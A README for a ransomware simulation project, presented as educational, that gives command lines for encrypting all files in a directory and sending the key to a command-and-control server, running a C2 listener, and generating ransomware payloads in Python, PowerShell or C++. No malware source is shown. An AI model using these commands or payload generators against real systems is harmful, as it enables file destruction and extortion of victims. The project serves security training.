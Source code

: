 # RanSimulation

This project simulates a ransomware scenario for educational purposes. It includes file encryption, decryption, payload generation, and communication with a Command and Control (C2) server (In development).


## **Setup**

1. Clone the repository:
   ```bash
   git clone https://github.com/CyberSecurityUP/RansomwareSimulator.git
   cd RansomwareSimulator
   ```

2. Install required dependencies:
   ```bash
   pip install cryptography
   ```

3. Ensure Python 3.8+ is installed on your system.

---

## **Usage**

### **1. Encrypt Files**
Encrypt all files in the current directory and send the encryption key to the specified C2 server:
```bash
python3 main.py --encrypt --ip <C2_IP> --port <C2_PORT>
```

Example:
```bash
python3 main.py --encrypt --ip 127.0.0.1 --port 4444
```

### **2. Decrypt Files**
Decrypt all files in the current directory using the provided encryption key:
```bash
python3 main.py --decrypt --key <ENCRYPTION_KEY>
```

Example:
```bash
python3 main.py --decrypt --key "YOUR_ENCRYPTION_KEY"
```

### **3. Start a C2 Listener**
Start a C2 listener to receive encryption keys from clients:
```bash
python3 main.py --listen --ip <LISTEN_IP> --port <LISTEN_PORT>
```

Example:
```bash
python3 main.py --listen --ip 0.0.0.0 --port 4444
```

### **4. Generate Payloads**
Generate a ransomware payload in Python, PowerShell, or C++:
```bash
python3 main.py --generate <LANGUAGE> --ip <C2_IP> --port <C2_PORT>
```

Example:
```bash
python3 main.py --generate python --ip 127.0.0.1 --port 4444
```

Supported languages:
- `python`
- `powershell`
- `c++`

---

